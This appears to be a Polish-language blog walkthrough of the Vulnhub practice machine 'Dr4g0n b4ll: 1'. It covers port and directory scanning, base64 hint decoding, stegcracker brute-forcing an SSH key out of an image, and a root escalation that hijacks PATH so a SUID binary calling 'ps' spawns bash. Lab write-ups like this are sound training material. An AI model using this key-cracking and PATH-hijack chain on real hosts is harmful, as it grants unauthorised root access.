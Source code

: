 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough  
tags:
  - Hacking
  - Vulnhub
  - Walkthrough
  - Dr4g0nB4ll
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
---
```

# Dr4g0n b4ll: 1
Write-up is in Polish language.

# Metainfo

|:----|:----|
|Nazwa:|Dr4g0n b4ll: 1|
|Autor:|[Mr_xmen](https://www.vulnhub.com/author/mr_xmen,777/)|
|Wypuszczony:|2021-01-14|
|Do ściągnięcia:|[Stąd](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/) - Vulnhub|
|Poziom:|Łatwy|
|Nauczysz się:|Metasploit, Base64, Stegcracker, C|

# Wstęp
Wydany na początku stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają jest bardzo prostą maszyną, jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [**GRUB**a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była, jak pisał autor. Przypominała bardziej prawdziwą sytuację, niż taką upstrzoną zagadkami. W hack-me-please niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/) na necie. Inny typ zadania, ale zawsze jest jakieś nowe doświadczenie. Wracając do **Dragon Ball**a, jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu. :smiley:
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty **Nmap**em. Możemy pod **Metasploit**em, albo bez. Ja wolę użyć **Metasploit**a, bo mam potem wszystkie ip, hasła, otwarte porty w jednym miejscu. Co do **Shell**a, to niekoniecznie, czasami wolę się wbić normalnie przez **SSH**, niż potem ulepszać **Meterpreter**, ale co kto woli.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
## Co na stronie piszczy?
Otwarte są tylko 2 porty: **22** i **80**. Na Stronie **WWW** mamy zdjęcia z anime **Dragon Ball**.
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
{: .text-justify}
```bash
# echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
# echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
# echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Radzę pisać z przełącznikiem _-n_, teraz odkoduje tak samo, ale podczas kodowania base64 bez _-n_ wychodzą inne rzeczy, **Echo** koduje dodatkowo znak nowej linii _0x0a_.
{: .text-justify}
{: .notice--info}
Skanowanie **Gobuster**em:
```bash
# gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy parę ciekawych rzeczy:
http://172.16.1.124/robots.txt
{: .text-justify}
{: .notice--info}
Ponownie dekodujemy:
{: .text-justify}
```bash
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
# echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Jest komunikat, żeby szukać ukryty katalog:
_http://172.16.1.113/DRAGON%20BALL/Vulnhub/_
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery3"  %}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .text-justify}
{: .notice--info}
{% include gallery id="gallery4"  %}

## Stenografia
Strona poprawnie nie działa, ale mamy login. i jest ciekawy obrazek _aj.jpg_:
{: .text-justify}
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
## Lądujemy do Shella
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
# ssh -i id_rsa xmen@172.16.1.113
```
Poszło:
Mamy ciekawy katalog script, ale poszukajmy plików, które mają ustawiony bit suid, może się coś ciekawego znajdzie:
{: .text-justify}
```bash
# xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Ciekawa jest zawartość: **/home/xmen/script/shell**
{: .text-justify}
```bash
# xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W _demo.c_ widać krótki kod źródłowy. Program przechodzi na uprawnienia **root**a i uruchamia _ps_:
{: .text-justify}
<div class="notice--primary" markdown="1">
demo.c
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
</div>
Program **./shell** uruchamia **ps** z uprawnieniami **root**a:
```bash
# xmen@debian:~/script$ ./shell
  PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
```
Nie mamy podanej całej ścieżki do _ps_, więc możemy to wykorzystać. Stwórzmy program w katalogu domowym:
{: .text-justify}
```bash 
# file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym: **PATH="/home/xmen:$(echo $PATH)"**
{: .text-justify}
```bash
# xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
# xmen@debian:~/script$ ./shell
# root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```
## Słowo na koniec
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać uprawnieniami **suid**. **ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}
